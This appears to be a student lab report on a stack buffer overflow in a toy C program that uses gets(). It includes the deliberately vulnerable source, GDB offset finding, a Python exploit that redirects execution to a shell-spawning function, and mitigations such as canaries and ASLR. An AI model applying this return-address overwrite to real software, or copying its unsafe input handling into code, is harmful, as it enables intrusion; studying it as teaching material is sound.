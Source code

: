 # Buffer Overflow Vulnerability Analysis

# Buffer Overflow Exploit Development

## 1. Introduction

This report describes the process of identifying a buffer overflow vulnerability in a simple C program and writing an exploit to gain control over the execution flow. The goal of the task was to demonstrate how buffer overflows can be used to overwrite the return address and invoke arbitrary functions, allowing unauthorized access to the system. The vulnerable program is analyzed and an exploit is written using the knowledge of stack memory layout and assembly-level analysis.

## 2. Vulnerable Program Analysis

### 2.1 Code Overview

The target program contains a buffer overflow vulnerability. The vulnerable function, `vulnerable()`, accepts user input using the unsafe `gets()` function, which does not check for buffer boundaries. This allows an attacker to overflow the buffer and overwrite the return address on the stack.

```c
#include <stdio.h>
#include <string.h>

void secret() {
    printf("Access granted! Exploit successful.\n");
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    printf("Enter your name: ");
    gets(buffer);  // vulnerable function
    printf("Hello, %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}


```
## 3. Identifying the Vulnerability

### 3.1 Stack Behavior and Buffer Overflow

The program contains a buffer `char buffer[64]`, which is vulnerable to overflow because of the unsafe use of `gets()`. By providing more than 64 characters as input, we can overwrite adjacent memory regions, including the saved return address of the function `vulnerable()`.

### 3.2 Pattern Creation and Finding the Offset

To determine the exact location where the buffer overflow occurs (i.e., where the return address is stored), we use the `cyclic` command to generate a unique pattern:
```bash
cyclic 200
```

This command generates a 200-character pattern that is used as input for the program. Upon crashing the program with a segmentation fault, we can inspect the saved register values (specifically EIP) in GDB to locate the point where the return address was overwritten.

In GDB, the command `info registers` helps us identify the overwritten EIP:

```bash
info registers
```

By using the `cyclic -l` command in GDB, we can determine the exact offset to the return address:

```bash
cyclic -l 0x61616174
```
![img1](img/img1.jpg)
The output shows that the offset to overwrite the return address is 76 bytes.

## 4. Writing the Exploit

### 4.1 Exploit Script

To exploit the vulnerability, we write a Python script that generates a payload. The payload consists of 76 "A"s to fill the buffer and then the address of the `secret()` function, which we obtained from the `objdump` command:

```bash
objdump -d vuln | grep secret
```

The address of the `secret()` function is `0x080484b6`. Using this address, we construct the payload in the exploit script:

```python
import os

offset = 76  # determined empirically
secret_addr = 0x080484b6  # address of the secret function

payload = b"A" * offset
payload += secret_addr.to_bytes(4, 'little')  # EIP

with open("exploit_input", "wb") as f:
    f.write(payload)
```

The payload is written to the file `exploit_input`, which is then passed to the vulnerable program:

```bash
./vuln < exploit_input
```

### 4.2 Exploit Execution

When the program is executed with the crafted input, it successfully redirects the execution flow to the `secret()` function, which prints:

```
Access granted! Exploit successful.
```
![img2](img/img2.jpg)
A shell is then spawned, giving the attacker control over the system.

## 5. Protecting the Program and Additional Analysis

### 5.1 Stack Protector and ASLR

After successfully exploiting the buffer overflow, we test the program with additional protections enabled:

**Stack Protector:** The stack protector (canary) is enabled to prevent stack buffer overflows.

```bash
gcc -m32 -fstack-protector vuln.c -o vuln_protected
```
![img3](img/img3.jpg)
**ASLR:** Address Space Layout Randomization (ASLR) is enabled to randomize memory addresses.

```bash
sudo sysctl -w kernel.randomize_va_space=2
```
![img4](img/img4.jpg)
With these protections in place, the program behaves differently, and the exploit is blocked. The stack protector causes a crash due to the invalid stack state, and ASLR randomizes the address of the `secret()` function, making it difficult to predict the address.

### 5.2 IDA Pro Analysis

We use IDA Pro to analyze the vulnerable binary. By disassembling the binary, we examine the stack layout, specifically how the return address is stored and how it can be overwritten during a buffer overflow. The function `vulnerable()` is analyzed to understand the flow of execution and identify how the return address can be hijacked.

## 6. Conclusion

In this exercise, we successfully exploited a buffer overflow vulnerability to gain control over the program's execution flow. By understanding the stack layout and using techniques such as pattern creation, GDB analysis, and writing an exploit, we demonstrated how an attacker can overwrite the return address and execute arbitrary functions. The exercise also illustrated the importance of stack protection mechanisms, such as stack canaries and ASLR, in preventing such attacks.

In the future, it's crucial to use safe functions (like `fgets()`) and enable protections like stack canaries, ASLR, and DEP to prevent buffer overflow vulnerabilities.
